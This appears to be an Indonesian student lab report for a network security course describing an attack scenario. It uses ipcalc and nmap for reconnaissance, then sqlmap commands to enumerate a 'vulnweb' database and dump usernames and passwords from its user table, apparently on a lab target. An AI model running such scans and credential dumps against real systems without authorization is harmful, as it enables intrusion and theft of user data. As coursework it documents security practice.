






<h3 align="center">
    <b>Kemanan Jaringan</b> 
    Attack Scenario
</h3>
 

  

 

    Dosen Pembimbing: 
    Ferry Astika Saputra, S.T., M.Sc.

 

    Disusun Oleh: 
    Iqbal Darmawan (3122640041)

 

    <b>
        KELAS D4 LJ IT B  
        JURUSAN D4 LJ TEKNIK INFORMATIKA  
        DEPARTEMEN TEKNIK INFORMATIKA DAN KOMPUTER   
        POLITEKNIK ELEKTRONIKA NEGERI SURABAYA  
        2023
    </b>

 
 

1\.  Mengakses Database 

1. Dapatkan Ip dari kali linux yang digunakan untuk menyerang 

2. gunakan Ipcalc untuk mendapatkan range dari IP 

3. Nmap untuk mendapatkan Ip dari target yang ingin diserang atau Ip yang juga tersambung pada range yang sama 

4. buka ip pada browser 

5. coba jalankan menggunakan SQLMap sqlmap -u “Url” –dbs : untuk mendapatkan data database yang ada 

6. disini saya ingin melihat tabel pada database vulnweb. 

sqlmap -u “url” -D vulnweb –tables : untuk melihat daftar list table pada database vulnweb 

7. selanjutnya kita lihat kolom yang ada pada tabel user  

sqlmap -u “url” -T user –columns : untuk melihat daftar kolom pada tabel 

8. selanjutnya kita dapatkan data dari tiap kolom tabel user  

sqlmap -u “url” -C id\_user,password,username –dump : digunakan untuk mendapatkan data id\_user, password, dan username 

9. selanjutnya masuk ke menu admin untuk melihat isi data yang ada di aplikasinya 

10. Lihat salah satu data untuk mengetahui isi database 

11. Jalankan Perintah  

sqlmap -u "http://192.168.30.148/?tampil=artikel\_detail&id=85" -C gambar,hits,id\_artikel,isi,judul,tanggal –dump 

untuk menampilkan data sql 

